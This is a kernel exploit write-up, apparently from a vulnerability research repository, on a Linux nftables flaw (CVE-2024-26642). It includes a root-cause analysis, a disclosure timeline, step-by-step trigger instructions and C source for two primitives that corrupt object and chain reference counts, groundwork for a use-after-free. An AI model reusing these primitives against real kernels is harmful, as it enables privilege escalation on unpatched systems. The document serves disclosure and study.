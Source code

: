 # Exploit detail about CVE-2024-26642
If you want to get some base information about CVE-2023-6817, please read [vulnerability.md](./vulnerability.md) first.

## Background
nftables is a netfilter project that aims to replace the existing {ip,ip6,arp,eb}tables framework, providing a new packet filtering framework for {ip,ip6}tables, a new userspace utility (nft) and A compatibility layer. It uses existing hooks, link tracking system, user space queuing component and netfilter logging subsystem.

It consists of three main components: kernel implementation, libnl netlink communication and nftables user space front-end. The kernel provides a netlink configuration interface and runtime rule set evaluation. libnl contains basic functions for communicating with the kernel. The nftables front end is for user interaction through nft.

nftables implements data packet filtering by using some components like `table`, `set`, `chain`, `rule`.

## Some additional stories
After reading `vulnerability.md` or `cause analysis`, you may wonder why the root cause and patch do not seem to match. I can only talk about the vulnerability reporting process for this question.
I sent a vulnerability report to security@kernel.org at 2024.2.29 13:33: 
``` 
Hi, I've found a new vulnerability in Linux netfilter/nftable subsystem. In the function nf_tables_deactivate_set, it does not set "set->dead = 1". This makes it possible to call nft_setelem_data_deactivate with a set element more than once by following this step: 
1. Create a pipapo set with flag NFT_SET_TIMEOUT and NFT_SET_ANONYMOUS. 
2. Create a set element of this pipapo set with flag NFTA_SET_ELEM_EXPIRATION. 
3. Create a chain. 
4. Create a rule with nft_lookup expr, which will bind the pipapo set we create in step 1. 
5. Delete the chain And finally nft_setelem_data_deactivate will be called for the same set element both in nft_map_deactivate and in function pipapo_gc.

Attachment is the poc I wrote for this vulnerability, which leaks some kernel pointers. I tested it on linux 6.1.78.

Thanks,
lonial con
```
The email also attached a poc I wrote based on the trigger idea (it can cause the latest kernel at that time to produce crahs). I did not receive any reply emails afterwards.
On 2024.3.5, I noticed that the maintainer of netfilter pushed a patch to netfilter (https://patchwork.ozlabs.org/project/netfilter-devel/patch/20240301022605.146412-1-pablo@netfilter.org/). He pushed the corresponding patch without asking for any opinion from me.

The patch did make my poc not work, but this patch did not fix the core of the problem `set->dead = 1`. Therefore, I added two patch commits to `vulnerability.md`.

## Cause anaylysis

In the function nf_tables_deactivate_set, it does not set "set->dead = 1". This makes it possible to call nft_setelem_data_deactivate with a set element more than once by following this step:

1. Create a pipapo set with flag NFT_SET_TIMEOUT and NFT_SET_ANONYMOUS.
2. Create a set element of this pipapo set with flag NFTA_SET_ELEM_EXPIRATION.
3. Create a chain.
4. Create a rule with nft_lookup expr, which will bind the pipapo set we create in step 1.
5. Delete the chain

After you send these commands in a message list, when you reach step 5 `delete the chain`, the following call chain will occur:
```
nf_tables_delchain -> nft_delrule -> nft_rule_expr_deactivate -> (expr->ops->deactivate) -> nft_lookup_deactivate -> nf_tables_deactivate_set -> case NFT_TRANS_PREPARE: nft_map_deactivate
```
`nft_map_deactivate` will eventually call `nft_setelem_data_deactivate` for all set elements in the set.

But at the same time, after all commands are executed, nftable will also call `nf_tables_commit`, which triggers another call chain:

```
nf_tables_commit -> (set->ops->commit) -> nft_pipapo_commit -> pipapo_gc -> nft_pipapo_gc_deactivate -> nft_setelem_data_deactivate
```

Finally, `nft_setelem_data_deactivate` will be called for elements which are timed out in the pipapo set, which may result in multiple calls to `nft_setelem_data_deactivate` for the same set element.

## Triggering the vulnerability

It's easy to trigger it by following this steps:

- Create a pipapo set with flag NFT_SET_TIMEOUT and NFT_SET_ANONYMOUS.
- Create a set element of this pipapo set with flag NFTA_SET_ELEM_EXPIRATION.
- Create a chain.
- Create a rule with nft_lookup expr, which will bind the pipapo set we create in step 1.
- Delete the chain 


## Exploit it
The method of exploiting CVE-2024-26642 is exactly the same as that of exploiting CVE-2023-6817. If you want to learn how I exploit CVE-2023-6817, please read [here](https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-6817_lts_cos/docs/exploit.md).The only difference is how to construct the two primitives.

## Primitive
### Primitive_0
I build a function named as `primitive_0` to change the nft_object->use by triggering the vulnerabiltiy:

```c
//make target_obj->use = target_obj->use - repeat_time
void primitive_0(struct nl_sock *socket, char *table, char *target_obj, int repeat_time){
    char *pad = malloc(0x100);
    memset(pad,0x41,0x100);
    int i,j;
    struct nlmsghdr **msg_list = malloc(sizeof(struct nlmsghdr *)*0x100);
    char *key = malloc(0x40);
    char *set_name = "set for primitive0";
    char *chain_name = "chain for primitive0";
    msg_list[0] = new_set_pipapo_for_timeout_with_anonymous_msg(table, set_name, NFT_OBJECT_CT_EXPECT);
    for(i=0;i<repeat_time;i++){
        *(uint64_t *)key = i;
        msg_list[i+1] = new_setelem_with_expiration_msg(table, set_name, pad, 0xc0, target_obj, key, 0x40, NULL, 0, 0,0x0100000000000000);
    }
    msg_list[repeat_time+1] = new_chain_msg(table, chain_name, 0);
    msg_list[repeat_time+2] = new_rule_lookup_for_chain_msg(table, chain_name, set_name, 0);
    msg_list[repeat_time+3] = del_chain_msg(table, chain_name);
    send_msg_list(socket, msg_list, repeat_time+4);

    free(msg_list);
    free(pad);
}
```


How it works:
1. message 0: Create a pipapo set with flags `NFT_SET_TIMEOUT` and `NFT_SET_ANONYMOUS`
2. message from 1 to (repeat_time): Create repeat_time set elements, all of which contain `NFTA_SET_ELEM_EXPIRATION` and `NFTA_SET_ELEM_TIMEOUT`.
3. message repeat_time+1: Create a chain
4. message repeat_time+2: Create a rule on the chain, which contains an expr of type `lookup`. `lookup` expr can be bound to an `nft_set` when initialized, and we let it bind the pipapo set created by message[0].
5. message repeate_time+3: delete the chain created by message repeat_time+1
When the above message is sent, two rounds of calls to `nft_setelem_data_deactivate` for the same set element will be triggered:
    
The first round is when executing message repeate_time+3, and the following call path will be generated in the end:

```c
nf_tables_delchain -> nft_delrule -> nft_rule_expr_deactivate -> (expr->ops->deactivate) -> nft_lookup_deactivate -> nf_tables_deactivate_set -> nft_map_deactivate
```

The `nft_map_deactivate` function will call `nft_mapelem_deactivate` -> `nft_setelem_data_deactivate` for all elements in the pipapo set created by message 0.

The second round is after all messages are executed, `netfilter` will call the `nf_tables_commit` function, and finally generate the calling path:
```c
nft_set_commit_update -> (set->ops->commit) -> nft_pipapo_commit -> pipapo_gc -> nft_pipapo_gc_deactivate -> nft_setelem_data_deactivate
```
The function `pipapo_gc` will also call `nft_setelem_data_deactivate` for all timeout elements in pipapo set.
(This is why it is necessary to add `set->dead = 1` in nf_tables_deactivate_set to fix the vulnerability, because after adding this line of code, the subsequent operations will not be executed in the function nft_set_commit_update.)

It will trigger the vulnerability as described above. In order to achieve the effect of executing "nft_object->use--" multiple times on the same nft_object, I created multiple set elements using the same nft_object at one time.

### Primitive_1
I build a function named as `primitive_1` to change the nft_chain->use by triggering the vulnerabiltiy:

```c
//make target_chain->use = target_chain->use - repeat_time
void primitive_1(struct nl_sock *socket, char *table, char *target_chain, int repeat_time){
    char *pad = malloc(0x100);
    memset(pad,0x41,0x100);
    int i,j;
    struct nlmsghdr **msg_list = malloc(sizeof(struct nlmsghdr *)*0x100);
    char *set_name = "set for primitive1";
    char *chain_name = "chain for primitive1";
    char *key = malloc(0x40);
    msg_list[0] = new_set_pipapo_for_timeout_and_chain_with_anonymous_msg(table, set_name, 0x40);
    for(i=0;i<repeat_time;i++){
        *(uint64_t *)key = i;
        msg_list[i+1] = new_setelem_with_chain_and_expiration_msg(table, set_name, pad, 0xc0, target_chain, key, 0x40, NULL, 0, 0,0x0100000000000000);
    }
    msg_list[repeat_time+1] = new_chain_msg(table, chain_name, 0);
    msg_list[repeat_time+2] = new_rule_lookup_for_chain_msg(table, chain_name, set_name, 1);
    msg_list[repeat_time+3] = del_chain_msg(table, chain_name);
    send_msg_list(socket, msg_list, repeat_time+4);

    free(msg_list);
    free(pad);
}
```
It will trigger the vulnerability as described above. In order to achieve the effect of executing "nft_chain->use--" multiple times on the same nft_object, I created multiple set elements using the same nft_chain at one time.


## Exploit
Because the exploit steps of CVE-2024-26642 is the same as CVE-2023-6817, please read [here](https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-6817_lts_cos/docs/exploit.md).